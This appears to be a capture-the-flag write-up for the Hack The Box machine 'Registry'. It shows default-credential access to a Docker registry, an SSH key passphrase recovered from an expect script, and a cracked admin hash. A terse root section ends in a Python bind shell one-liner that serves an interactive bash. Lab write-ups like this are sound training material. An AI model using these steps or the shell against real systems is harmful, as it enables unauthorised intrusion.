

Running some enumeration on the box gives us port `22`, `80` and `443` open and running. 

The first interesting thing to notice is the `commonName` in the self-signed SSL certificate: `docker.registry.htb`. Commonly boxes will have dynamic host redirection. 

Therefore, due to the lack of DNS with HTB adding this to the `/etc/hosts` file lets us resolve this address to the box IP.

This then gives us a completely blank page?

Running `gobuster` on all endpoint gives us a `/v2` endpoint!

With some research it shows this endpoint as a `docker hub`. With a little trial and error it shows default creds:
```
admin:admin
```

A `docker` hub is designed to be able to host docker images that may be required locally.

In order to look at the available repos we can navigate to the `_catalog` directory.
```
http://docker.registry.htb/v2/_catalog
```

This shows us an image called `bolt-image`.

In order to download this image locally we need do a little setup. Because `docker` will get mad about a self-signed certificate we need to add the url to `insecure-registries`. Below is the file and contents:

Filepath:
```
/etc/docker/daemon.json
```

Contents:
```
{
  "insecure-registries" : ["docker.registry.htb"]
}
```

This will now let us pull the image like so:
```
sudo docker pull docker.registry.htb/bolt-image
```

We can then launch a shell on the container like so:
```
sudo docker run -it docker.registry.htb/bolt-image /bin/bash
```

This lets us look around the container file system.

Looking around shows us `.ssh` keys in the the `/root` directory. They are for the user `bolt`, but are password protected. A quick brute force gave no results, therefore, another method is needed.

Looking in the user directory shows us a `.vimprofile` file. This contains reference to a file `/etc/profile.d/01-ssh.sh`. This file contains:

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This gives us the password for the `ssh` key:

```
GkOcz221Ftb3ugog
```

This lets us log on and grab the `user.txt`!

# ROOT

```php
<?php 
    shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
?>
```

```
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||0||["root","everyone"]
```

Cracking it gives us

```
admin:strawberry
```

```
User www-data may run the following commands on bolt: (root) NOPASSWD: /usr/bin/restic backup -r rest* ---
```

We can obtain a shell by using a python bind shell:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```